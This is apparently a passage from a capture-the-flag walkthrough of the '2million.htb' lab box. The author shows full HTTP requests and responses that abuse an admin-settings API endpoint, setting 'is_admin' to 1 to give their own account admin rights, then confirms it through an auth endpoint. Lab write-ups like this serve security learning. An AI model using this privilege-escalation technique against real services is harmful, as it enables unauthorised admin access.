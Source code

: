 ```http

{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}
```

It says that `is_admin`'s data should be either 0 or 1.
Let's set 1 on `is_admin` parameter.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 46

{"email":"bokchee@bokchee.com",
"is_admin":1}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:00:20 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 43

{"id":13,"username":"bokchee","is_admin":1}
```

I think the API worked, and my account is admin now.
Now, let's check if my current account is admin with previously used api : `/api/v1/admin/auth`

```http
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:01:56 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 16
```